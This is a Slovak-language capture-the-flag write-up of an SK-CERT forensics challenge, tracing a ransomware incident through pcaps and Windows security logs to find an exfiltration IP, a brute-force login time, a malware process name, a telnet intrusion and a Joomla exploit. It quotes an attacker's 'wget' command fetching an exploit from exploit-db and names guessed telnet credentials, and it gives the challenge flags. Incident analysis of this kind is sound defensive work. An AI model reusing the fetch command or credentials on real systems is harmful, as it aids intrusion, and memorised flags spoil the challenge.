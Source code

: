 # SK-CERT - DÁTOVÁ ANALÝZA
> Ozvala sa nám spoločnosť, ktorá dostala hlásenie že majú infikovaný počítač ransomvérom. Ten je špecifický tým že posiela vygenerovaný privátny kľuč na útočníkov server. Prikladáme vám pcap: https://drive.google.com/file/d/13arhVaKNFD_g2qCjuDBrECmpN6MKd4Rw/view?usp=sharing <br/>
Reported Difficulty: 1

:exclamation: *Súbory a zadania z tejto súťaže môžete stiahnuť z https://ulozto.net/file/9qLDe5asaCHJ/*

## 1 Kontrola
> Z dodaného PCAP súboru je potrebné zistiť či naozaj je spoločnosť infikovaná, a pokiaľ áno, tak je potrebné zistiť o aký privátny kľuč sa odosiela. Vlajka je IP adresa serveru na ktorý sa kľuč odoslal.

> Body: 3

<details>
<summary>Zobraziť riešenie</summary>

Otvoríme `part1.pcap` vo Wireshark a pustime sa do analýzy. Musím uznať, že som to išiel skratkou a skúšal rôzne IP adresy z komunikácie kým som nenatrafil na tu pravú: `194.182.66.53`

```
flag: 194.182.66.53
```
</details>

## 2 Windows?
> Zdrojová IP počítača ktorý odosielal privátny kľuč, patrí lokálnemu počítaču s WIndows. Je potrebné zistiť ako prenikli do tohto systému. Prikladáme bezpečnostný log v XML formáte.
https://drive.google.com/file/d/1pmJNCfgnpTCMewCaRioqagYj0_VLcold/view?usp=sharing
Vlajka je dátum a čas prvého prieniku (Formát Y-m-d H:i:s)

> Body: 3

<details>
<summary>Zobraziť riešenie</summary>

V tomto kroku mame security log v xml, otvoríme ho v Libre Office Calc a pozrieme sa na rôzne eventy čo tam mame. Z počtu rôznych logov vidíme vysoký výskyt 4625 čo je Failed Login.

![](images/2022-03-06-12-36-54.png)

Keď si vyfiltrujeme všetky 4625 eventy vidíme, že všetky majú FailureReason `%%2313` čo je `Unknown user name or bad password. (529)`, targetuser je `victim` a zdrojom je `LinuxServerWebServer`. Vyzerá to na bruteforce login ktorý, ak predpokladáme, že bol enty point, náš flag by mal byť prvý successfull login attempt po poslednom failed:

![](images/2022-03-06-12-55-59.png)

```
flag: 2022-02-22 20:40:08
```
</details>

## 3 Ktorý proces?
> Po bruteforce útoku a prihlásení, útočník spustil malvér. Je potrebné zistiť meno procesu. Vlajka je meno procesu (Formát: meno_procesu.format)

> Body: 3

<details>
<summary>Zobraziť riešenie</summary>

V Libre Office vyfiltrujeme všetky eventy s ProcessName a NewProcessName a hľadáme niečo podozrivé po čase prvého successfull loginu útočníka a o chvíľku to máme:

![](images/2022-03-06-13-10-07.png)

```
flag: YouWillCryRansomware3000.exe
```
</details>

## 4 Otvorený test
> Kompromitovaný LinuxServerWebServer je náše testovacie prostredie, aplikácie na serveri sú dostupné iba z lokálnej siete, ale telnet server je otvorený do sveta. Prikladáme Pcap s potrebnými dátami. https://drive.google.com/file/d/1y3pOvG9PDGf7Sg7HtgOGvfjpk6qlVYor/view?usp=sharing
Vlajka je EpochTime prieniku do systému (bez milisekúnd).

> Body: 3

<details>
<summary>Zobraziť riešenie</summary>

Po otvorení `web.pcap` súboru, poobzeráme sa trošku okolo a uvidíme, že sa niekto snaží prihlásiť cez telnet session:

![](images/2022-03-06-15-43-26.png)

Skúsime hľadať "Login" v paketoch s cieľom nájsť prvý success login, a po niekoľko desiatok klikoch narážame na "Last Login" message ktorá sa objavuje po úspešnom prihlásení sa.

![](images/2022-03-06-15-48-16.png)

Pre istotu pôjdeme ešte zopár paketov vyššie aby sme sa uistili, že to bol útočník ktorý uhádol login a heslo. Po prezretí zopár desiatok paketov predtým vidíme, že útočník uhádol login `bob` a heslo `adminbob` a paket číslo `6262` môžeme poväzovať ako okamih prieniku do systému ktorý ma EpochTime (bez milisekúnd)

![](images/2022-03-06-15-53-52.png)

```
flag: 1645560004
```
</details>

## 5 Stará joomla
> Z logov sme zistili že útočník vyhackoval aj našu joomlu na testovacom serveri. Z posledného PCAP súboru je potrebné zistiť aký exploit útočník použil.
Vlajka je url odkial útočník exploit stiahol (Formát: www.stránka_exploitu.doména/cesta_k_exploitu)

> Body: 3

<details>
<summary>Zobraziť riešenie</summary>

Pri pozeraní zopár ďalších paketov vidíme, že útočník prvé čo spravil je `wget https://www.exploit-db.com/download/47465`, rýchly náhľad do toho url nám potvrdzuje že ide o Joomla expoit.

![](images/2022-03-06-16-16-09.png)

```
flag: www.exploit-db.com/download/47465
```
</details>
